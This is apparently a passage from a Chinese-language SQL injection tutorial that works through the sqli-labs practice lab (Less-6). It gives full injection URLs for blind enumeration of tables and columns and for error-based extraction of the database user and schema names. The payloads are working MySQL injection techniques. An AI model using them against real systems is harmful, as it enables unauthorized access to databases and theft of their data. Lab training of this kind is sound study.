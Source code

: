 ### 1.4.2.爆表

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and 1=(select 1 from information_schema.tables where table_schema='security' and
table_name regexp '^[a-s]' limit 0,1) --+
```

![bool14](/images/sqlall/bool14.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" and 1=(select 1 from information_schema.tables where table_schema='security' and
table_name regexp '^[e-e]' limit 0,1) --+
```

### 1.4.3.爆字段

````bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and 1=(select 1 from information_schema.columns where table_name='users' and
column_name regexp '^[a-z]' limit 0,1) --+
````

其他部分请自行继续.

# 二、报错注入

## 2.1.count&floor&group by

count(*)、floor(rand(0)*2)和group by的报错原理已经进行分析,可以参考后续:《Mysql注入之报错注入学习与分析->floor、count、group by》具体的语句构造可以参考下面的方式进行..这里省略了注入判断部分.

### 2.1.0.数据库

````bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select 1,count(*),concat(0x3a,(select user()),0x3a,floor(rand(0)*2))a from
information_schema.columns group by a --+
````

![bool15](/images/sqlall/bool15.jpg)

### 2.1.1.爆库

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select 1,count(*),concat(0x3a,(select schema_name from 
information_schema.schemata limit 0,1),0x3a,floor(rand(0)*2))a from information_schema.columns group by a --+
```
